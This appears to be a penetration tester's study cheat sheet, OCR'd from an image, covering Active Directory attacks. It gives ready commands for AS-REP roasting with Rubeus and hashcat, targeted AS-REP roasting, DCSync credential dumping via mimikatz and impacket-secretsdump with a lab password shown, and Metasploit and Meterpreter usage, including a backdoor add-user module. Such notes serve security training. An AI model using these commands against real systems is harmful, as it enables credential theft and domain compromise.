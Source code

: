 ```bash
#extract AS-REP hash
.\Rubeus.exe asreproast /nowrap

#copy to kali to run hash cat
sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Targeted AS-REP roasting
- condition: cannot identify any AD users with the account option "Do not require Kerberos preauthentication" enabled && notice that we have GenericWrite or GenericAll permissions on another AD user account
- leveraging "GenericWrite or GenericAll" permissions, we can modify the User Account Control value of *any* user to not require Kerberos preauthentication
- Once enabled "Do not require Kerberos preauthentication" of the user, do AS-REP roasting
- Finally, reset the User Account Control value of the user once we’ve obtained the AS-REP hash

### DCSync-Domain Controller Synchronization
- Condition:  User needs to have the Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights. *By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights*
- Hence, must have access to members of the Domain Admins, Enterprise Admins, and Administrators groups

#### DCSync On windows
```powershell
#output of lsadump::dcsync is NTLM hash of target user including Administrator
mimikatz # lsadump::dcsync /user:corp\*targetusertoobtaincredential*
```

#### DCSync on Kali
```bash
#192.168.50.70 = IP of Domain Controller, output is the hash of target user
impacket-secretsdump -just-dc-user *targetuser* corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

```

## Metasploit (msf6)
- start: `msfconsole`
- search for modules: `search ms17`
- to use a module: `use <#>` or use `use auxiliary/scanner/smb/smb ms17 010`
- see options that needs to be filled: `options`
- set rhost: `set rhosts 192.168.1.53`
- deploy: `run`
- see exploit target of a module: `show targets`
- check if payload matches your target e.g. x64 or x86 machine: `show payloads`
- Backdoor add user: `windows/manage/add_user`

## Meterpreter (meterpreter >)
- We can background a currently running meterpreter session and return back to msfconsole using: `background`
- To check meterpreter sessions at background: `sessions -i`
- to go back to session #5 in background meterpreter session: `sessions -i 5`+
